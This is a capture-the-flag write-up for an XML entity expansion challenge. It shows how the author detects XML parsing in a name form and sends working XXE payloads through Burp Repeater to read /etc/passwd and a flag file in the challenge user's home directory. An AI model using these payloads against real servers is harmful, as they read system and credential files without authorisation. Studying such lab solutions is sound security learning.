 # 02 Expand the Flag

Say hello, tell me your name. I bet you can't eXpand My fLag TXT

## Write-up

The letters XML were capitalized in the challenge introduction. Also the name of the challenge includes Expand. XML Entity Expansion is a type of vulnerability and likely what's needed to get the flag.

https://en.wikipedia.org/wiki/XML_external_entity_attack


The challenge link goes to a simple web form that asks for your name, two text input fields for your first and last name, and a button to submit.

![Web page with two input boxes and a submit button](input.png)


Entering text into the input boxes and submitting will load another page repeating the text back.

![Web page saying "Hello a b."](output.png)


Some tests on the input fields:
* using the < character - the second page instead displays the message "Parsing Failed".
* using the HTML entity &quot; - the second page does not render it.
* using <![CDATA[x]]> - the second page just renders the contents and not the XML itself.

This is a good indicator the server is parsing the input as XML.

The HTML page for the input forms has a javascript function that runs when the submit button is clicked. The function takes the two input fields, wraps them up in tags and submits that new joined value rather than the two fields separately.

So "a" and "b" are wrapped up like:

```XML
<name>
<first_name>a</first_name>
<last_name>b</last_name>
</name>
```

If the server recieves data that doesn't quite match the format shown above, it will display an error message containing that data. For example, if the data just contains the name element and a CDATA block:

```XML
<name><![CDATA[foo]]></name>
```

The server parses the XML and displays the CDATA contents:

```Text
Hello  .
Unexpected data
name: foo
please contact to the development team.
```

We can potentially use this error message to have the server share with us information it should not.

Also worth noting there isn't any server side input sanitisation going on, which makes the attack much easier and more likely to pull off.

At this point it is assumed there is a file on the server with the flag we need to read and will use the XML entity expansion attack to read it. If that is true, as an extra challenge we also need to find the file, it isn't necessarily in the same directory as the script we are attacking.

To test faster, rather than trying via a web browser, I switched to Burp Suite's Repeater. I could submit directly to the server and skip the formatting automatically added by the javascript too.

![Burp Suite desktop application running its Repeater module](burp.png)

The general idea for the XML Entity Expansion attack to be used here would be to define an entity, using any name we like, that points to a file on the server. Then reference that entity name, which will cause the server to expand the entity into the contents of the file.

Trying just simple entity expansion by having it expand to a known value:

```
data=<!DOCTYPE foo [ <!ENTITY bar "baz"> ]><name>&bar;</name>
```

This didn't work, the & and ; needed to be escaped:

```
data=<!DOCTYPE foo [ <!ENTITY bar "baz"> ]><name>%26bar%3b</name>
```

That worked as expected, the page displayed "name: baz".

Now we can try the file expansion.

Since we don't know the path to the flag file, we can start with some files with well-known paths, such as /etc/passwd.

```
data=<!DOCTYPE name [ <!ENTITY txt SYSTEM "file:////etc/passwd" > ]><name>%26txt;</name>
```

This returned the file, besides the standard users, there was a challenge user at the end:

```HTML
Hello  .
Unnexpected data
name: root:x:0:0:root:/root:/bin/bash
name: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[...]
name: challenge:x:999:999::/home/challenge:/bin/sh
```

We still don't know where the flag file is, but perhaps it is in their home directory?

```
data=<!DOCTYPE name [ <!ENTITY txt SYSTEM "file://///home/challenge/flag.txt" > ]><name>%26txt;</name>
```

And it was!
